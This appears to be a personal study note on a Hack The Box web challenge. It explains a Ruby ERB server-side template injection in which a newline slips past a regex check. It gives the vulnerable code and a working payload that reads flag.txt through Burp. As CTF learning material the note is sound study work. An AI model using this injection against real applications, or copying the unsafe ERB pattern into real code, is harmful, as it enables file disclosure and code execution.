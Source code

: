 
2024-09-21 18:51

Source: #htb #web 

Tags: [[SSTI]]

Source Code Snippet - 
```ruby
if params[:neon] =~ /^[0-9a-z ]+$/i  
	@neon = ERB.new(params[:neon]).result(binding)  
else  
	@neon = "Malicious Input Detected"  
end
```

> And also, there is interesting situation. Even if you can use `%` in request , you can't use it in browser. you still will get “**Malicious Input Detected**” message.
> 
> But when you use it in **Burp suite** :
> You will see that we get “**Invalid query parameters: invalid %-encoding (a %)**” message.  
> It means something is wrong in our encoding but it still allows to send `%`

We send the request in burp w payload (url encode this)-  
```ruby
a  
<%= File.open('flag.txt').read %>
```

we need to pass the main payload in a new line . Why ?
in the above code `@neon` gets the parameter which we input and sends it to `index.erb`
If we want to run this code, In this code,  :

```html
<%= File.open('flag.txt').read %>
```

we have to pass new line like this :

```html
<h1 class="glow"><%= @neon  
<%= File.open('flag.txt').read %>%></h1>
```

And we can't leave `@neon` empty , that's why we write it like :

```html
<h1 class="glow"><%= a  
<%= File.open('flag.txt').read %>%></h1>
```

We need to use new line, but we cant use `/n`, we need to encode `/n` too.
do `/n` encoding in burps decoder or just go to [this website](https://www.urlencoder.org/) and encode it w/o `/n`

### References

SSTI for apps written in Ruby  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd

https://medium.com/@nurlanisazade/hack-the-box-neonify-walkthrough-guided-mode-cbd8d71962f9